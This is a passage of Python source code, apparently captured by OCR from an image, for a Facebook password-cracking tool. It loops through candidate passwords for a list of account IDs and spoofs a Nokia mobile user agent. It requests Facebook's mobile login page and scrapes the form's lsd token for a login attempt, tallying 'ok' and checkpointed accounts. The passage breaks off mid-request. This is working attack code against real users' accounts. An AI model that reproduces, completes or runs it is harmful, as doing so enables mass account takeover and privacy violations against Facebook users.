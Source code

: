         if ___worldwide___ in ('yes','Yes','Y', 'y'):

            self.__pler__()

        else:

            print(' [!] Choose Correct One');

            self.aziz(id)

    def __metode__(self, user, __chi__, cebok):

        global ok,cp,loop

        sys.stdout.write(f"\r \x1b[1;33m[Aziz]\x1b[1;33m {loop}|{len(self.id)} \x1b[1;32m[ok][{len(ok)}] ")

        sys.stdout.flush()

        try:

            for pw in __chi__:

                pw = pw.lower()

                session=requests.Session()

                header = {

                    "Host":cebok,

                    "upgrade-insecure-requests":"1",

                    "user-agent":"NokiaC5-05/22.5.007 (SymbianOS/9.4; U; Series60/5.0 Mozilla/5.0; Profile/MIDP-2.1 Configuration/CLDC-1.1 ) AppleWebKit/525 (KHTML, like Gecko) Safari/525 3gpp-gba+",

                    "accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",

                    "dnt":"1",

                    "x-requested-with":"mark.via.gp",

                    "sec-fetch-site":"same-origin",

                    "sec-fetch-mode":"cors",

                    "sec-fetch-user":"empty",

                    "sec-fetch-dest":"document",

                    "referer":"https://m.facebook.com/",

                    "accept-encoding":"gzip, deflate br",

                    "accept-language":"en-GB,en-US;q=0.9,en;q=0.8"

                }

                r = session.get(f"https://{cebok}/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F", headers=header)

                das = {

                    "lsd":re.search('name="lsd" value="(.*?)"', str(r.text)).group(1),
